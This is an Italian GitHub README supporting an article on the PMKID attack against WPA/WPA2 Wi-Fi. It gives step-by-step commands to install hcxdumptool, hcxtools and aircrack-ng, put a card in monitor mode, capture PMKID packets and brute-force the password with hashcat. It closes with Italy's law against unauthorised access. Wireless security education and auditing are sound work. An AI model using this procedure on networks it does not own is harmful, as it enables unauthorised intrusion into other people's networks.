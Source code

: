 # PMKID ATTACK

<div align="center">
 <img src="https://miro.medium.com/max/1354/1*D5RpNYKS1LzMb3sV8PMHbQ.png">
</div>

Questo repository è di supporto all'articolo riguardo il **PMKID ATTACK** disponibile [qui](https://medium.com/@mariocuomo/pmkid-attack-parte-1-9ae5433ea85e).<br>
L'articolo tra ispirazione dal [post](https://hashcat.net/forum/thread-7717.html) pubblicato il 4 agosto 2018 sul forum di **hashcat** riguardo una vulnerabilità nel protocollo Wi-Fi Protected Access (WPA e WPA2).


#### SCENARIO
Un Client che non è in possesso della password di un Access Point cerca di riceve un messaggio contenente un **PMKID** - una stringa cifrata il cui unico parametro ignoto è il **PMK**.<br>
Il **PMK** è generato a partire dalla password in chiaro e altre varibili note al Client.<br>
Conoscendo il processo generativo del PMK dalla password e quello del PMKID a partre dal PMK, il Client cerca di costruire un **PMKID*** a partire da password note.


#### TOOL NECESSARI
- [hcxdumptool](https://github.com/ZerBea/hcxdumptool), uno strumento che come suggerisce la descrizione del repository github è in grado di 'acquisire pacchetti da dispositivi wlan e scoprire potenziali punti deboli all'interno delle proprie reti WiFi'.<br>
È necessario quindi possedere una scheda wireless che supporti la _monitor mode_.
- [hcxtools](https://github.com/ZerBea/hcxtools), uno strumento che come suggerisce la descrizione del repository github permette di 'converti i pacchetti dalle acquisizioni per rilevare i punti deboli all'interno delle proprie reti WiFi analizzando gli hash'
- [hashcat](https://hashcat.net/hashcat/), uno strumento che implementa diversi algoritmi di cifratura e utilizzato per il recupero password


## PASSO 1 - INSTALLARE I VARI TOOL
È necessario clonare i repositori hcxdumptool e hcxtools.
```Bash
git clone https://github.com/ZerBea/hcxdumptool.git
cd hcxdumptool
make && make install

git clone https://github.com/ZerBea/hcxtools.git
cd hcxtools
make && make install
```

## PASSO 2 - IMPOSTARE LA PROPRIA SCHEDA IN MODALITÀ MONITOR
Uno strumento per impostare la propria interfaccia wireless in modalità monitor è [Airmon-ng](https://aircrack-ng.org/doku.php?id=it:install_aircrack)
```Bash
wget http://download.aircrack-ng.org/aircrack-ng-1.0.tar.gz
tar -zxvf aircrack-ng-1.0.tar.gz
cd aircrack-ng-1.0
make
make install
```

Se x è il nome della propria interfaccia - scopribile tramite il comando ```ifconfig``` - lanciare il comando 
```Bash
airmon-ng start x
```
Da questo momento il nome della interfaccia wireless avrà la forma x**mon**.<br>
Per avere una conferma rilanciare il comando ```ifconfig```.



## PASSO 3 - CATTURARE PACCHETTI DI INTERESSE
A questo punto è necessario catturare i pacchetti di interesse.<br>
Il comando minimale è il seguente, dove il parametro **-o** indica il file di output sul quale si scriverà e il parametro **-i** indica la sorgente dalla quale si cattureranno i pacchetti.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon 
```

Un parametro di interesse da aggiungere è **enable_status**.<br>
Questo parametro permette di specificare a quali pacchetti siamo interessati:<br>

**1**: EAPOL<br>
**2**: PROBEREQUEST/PROBERESPONSE<br>
**4**: AUTHENTICATON<br>
**8**: ASSOCIATION<br>

Siamo interessati ai pacchetti EAPOL.

```Bash
hcxdumptool -o pacchetti.pcapng -i xmon --enable_status=1
```

Il file creato può essere visualizzato con [wireshark](https://www.wireshark.org/).<br>
È possibile filtrare i pacchetti di interesse con il filtro wireshark ```eapol && wlan.rsn.ie.pmkid```

<div align="center">
 <img src="https://github.com/mariocuomo/PMKID/blob/main/resources/whireshark.png">
</div>

## PASSO 4 - CONVERTIRE IL FILE OUTPUT DI HCXDUMPTOOL
Il file .pcapng deve ora essere convertito in un formato comprensibile ad hashcat.<br>
In accordo a quanto previsto per la versione 6.2.5 di hashcat costruiamo un file con estensione .hc22000.

```Bash
 hcxpcapngtool -o hash.hc22000 -E wordlist pacchetti.pcapng
 ```
<div align="center">
 <img src="https://github.com/mariocuomo/PMKID/blob/main/resources/hcxpcapngtool.png">
</div>
 
## PASSO 5 - LANCIARE IL MECCANISMO DI BRUTEFORCE
Se si osserva il file appena creato esso segue la seguente forma:

**PROTOCOL** * **TYPE** * **PMKID/MIC** * **MACAP** * **MACCLIENT** * **ESSID** * **ANONCE** * **EAPOL** * **MESSAGEPAIR**

L'ESSID è espresso in esadecimale.<br>
Al solo titolo di esempio, si lanci il seguente script per decodificarli:

```Bash
awk -F "*" '{ system("echo " $6 " | xxd -r -p; echo" ) }' hash.hc22000
```
 
Si hanno tutte le informazioni necessarie per iniziare la computazione del PMKID.<br>
Come si è visto nell'articolo è necessario iniziare da una password, generare il PMK e successivamente il PMKID*.<br>
Ma da quali password iniziare?<br>
Si può utilizzare una lista di password candidate o si può esprimere una **mask**.<br>
Una mask descrive la struttura della passoword: si immagini di avere una password composta da 8 cifre decimali.<br>
Il comando è il seguente

```Bash
hashcat -m 22000 hash.hc22000 -a 3 -w 4 ?d?d?d?d?d?d?d?d
```

Il parametro -a indica l'hash type e il parametro -w indica il profilo di workload.

<div align="center">
 <img src="https://github.com/mariocuomo/PMKID/blob/main/resources/hashcat.png">
</div>

et voilà, tocca solamente attendere!

---

> **Art.615-ter. (Accesso abusivo ad un sistema informatico e telematico).<br>
> Chiunque abusivamente si introduce in un sistema informatico o telematico protetto da misure di sicurezza ovvero vi si mantiene contro la volontà espressa o tacita di chi ha il diritto di escluderlo, è punito con la reclusione fino a tre anni.**

---
